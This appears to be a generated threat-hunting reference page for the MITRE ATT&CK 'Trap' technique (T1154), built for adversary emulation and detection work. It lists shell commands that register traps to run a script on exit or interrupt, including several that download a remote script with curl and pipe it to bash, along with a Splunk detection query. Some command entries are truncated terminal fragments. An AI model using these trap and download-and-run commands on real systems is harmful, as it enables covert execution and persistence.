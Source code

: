 
# Trap

## Description

### MITRE Description

> The <code>trap</code> command allows programs and shells to specify commands that will be executed upon receiving interrupt signals. A common situation is a script allowing for graceful termination and handling of common  keyboard interrupts like <code>ctrl+c</code> and <code>ctrl+d</code>. Adversaries can use this to register code to be executed when the shell encounters specific interrupts either to gain execution or as a persistence mechanism. Trap commands are of the following format <code>trap 'command list' signals</code> where "command list" will be executed when "signals" are received.(Citation: Trap Manual)(Citation: Cyberciti Trap Statements)

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: intentionally left blank
* Permissions: ['User', 'Administrator']
* Platforms: ['Linux', 'macOS']
* Remote: intentionally left blank
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1154

## Potential Commands

```
trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | bash" EXIT
exit
trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | bash" SIGINt

Bash
icbc @ icbc: / $ trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh

> ^ C
Bash
icbc @ icbc: / $ history

693 trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' EXIT
nohup is used for continuing program/script execution even after exit.
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' INT
```

## Commands Dataset

```
[{'command': 'trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | '
             'bash" EXIT\n'
             'exit\n'
             'trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | '
             'bash" SIGINt\n',
  'name': None,
  'source': 'atomics/T1154/T1154.yaml'},
 {'command': 'Bash\n'
             "icbc @ icbc: / $ trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh\n'
             '\n'
             '> ^ C',
  'name': 'Bash',
  'source': 'https://raw.githubusercontent.com/12306Bro/Threathunting-book/master/{}'},
 {'command': 'Bash\n'
             'icbc @ icbc: / $ history\n'
             '\n'
             "693 trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh',
  'name': 'Bash',
  'source': 'https://raw.githubusercontent.com/12306Bro/Threathunting-book/master/{}'},
 {'command': "trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh '
             "| bash' EXIT",
  'name': None,
  'source': 'Kirtar22/Litmus_Test'},
 {'command': 'nohup is used for continuing program/script execution even after '
             'exit.',
  'name': None,
  'source': 'Kirtar22/Litmus_Test'},
 {'command': "trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh '
             "| bash' INT",
  'name': None,
  'source': 'Kirtar22/Litmus_Test'}]
```

## Potential Detections

```json
[{'data_source': 'bash_history logs'}]
```

## Potential Queries

```json
[{'name': None,
  'product': 'Splunk',
  'query': 'index=linux sourcetype=bash_history "trap *" | table '
           'host,user_name,bash_command'}]
```

## Raw Dataset

```json
[{'Atomic Red Team Test - Trap': {'atomic_tests': [{'description': 'After '
                                                                   'exiting '
                                                                   'the shell, '
                                                                   'the script '
                                                                   'will '
                                                                   'download '
                                                                   'and '
                                                                   'execute.\n'
                                                                   '\n'
                                                                   'After '
                                                                   'sending a '
                                                                   'keyboard '
                                                                   'interrupt '
                                                                   '(CTRL+C) '
                                                                   'the script '
                                                                   'will '
                                                                   'download '
                                                                   'and '
                                                                   'execute.\n',
                                                    'executor': {'command': 'trap '
                                                                            '"nohup '
                                                                            'sh '
                                                                            '$PathToAtomicsFolder/T1154/src/echo-art-fish.sh '
                                                                            '| '
                                                                            'bash" '
                                                                            'EXIT\n'
                                                                            'exit\n'
                                                                            'trap '
                                                                            '"nohup '
                                                                            'sh '
                                                                            '$PathToAtomicsFolder/T1154/src/echo-art-fish.sh '
                                                                            '| '
                                                                            'bash" '
                                                                            'SIGINt\n',
                                                                 'name': 'sh'},
                                                    'name': 'Trap',
                                                    'supported_platforms': ['macos',
                                                                            'linux']}],
                                  'attack_technique': 'T1154',
                                  'display_name': 'Trap'}}]
```

# Tactics


* [Execution](../tactics/Execution.md)

* [Persistence](../tactics/Persistence.md)
    

# Mitigations

None

# Actors

None
